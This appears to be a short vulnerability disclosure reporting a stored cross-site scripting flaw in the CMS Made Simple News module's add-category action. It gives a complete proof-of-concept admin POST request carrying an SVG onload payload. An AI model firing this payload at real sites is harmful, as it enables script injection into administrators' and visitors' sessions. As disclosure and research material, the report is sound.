 One day I felt like reviewing the source code of some random CMS and I picked CMSMS. This is totally random and I did this to kill boredom.

Stored XSS

In Setting-New module,you can add category,there is no XSS filtering, resulting in storage-type XSS generation. 
file modules/New/action.addcategory.php,line10~line29.
    ```` 
    $name = trim($params['name']);
    ````
The parameter name insert into the database without filtering。

## POC  
    ````
    POST /admin/moduleinterface.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 143
    Referer: http://127.0.0.1/
    Cookie: CMSICb6b86d162b=t5qthj5ve9r557omvs3j9slkm4; CMSSESSID4df2b2a65ee6=5osblhhflr07cfmp1730ffn3n0; _sk_=98cf4d97037a4df557b; bef694b94d14a6e115ebafd2d6cd1380=LGb1BagmBwZ6VaIcMPV7nGbkB3Z6BQbvqKAypz5uoJHvB3Z6AGbvLJEgnJ4vB3Z6AGbvL2gmqJ0vB3Z6AQN6Vwp1MzLkZJD3BQAyZzD4MQt3AGIyATH4MzL1BJRlLwMzZJWyLGVjMQHvB3Z6AmbvMJMzK3IcMPV7GwgmBwRlBvWyMzMsqKAypz5uoJHvB047sD%3D%3D
    Connection: close
    Upgrade-Insecure-Requests: 1
    mact=News%2Cm1_%2Caddcategory%2C0&_sk_=98cf4d97037a4df557b&m1_name=%3Csvg%2F+onload%3Dalert%281%29%3E&m1_parent=-1&m1_submit=%E6%8F%90%E4%BA%A4
    
    ````
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/94376829.jpg)
![](http://ohsqlm7gj.bkt.clouddn.com/17-11-12/48134010.jpg)
    
    
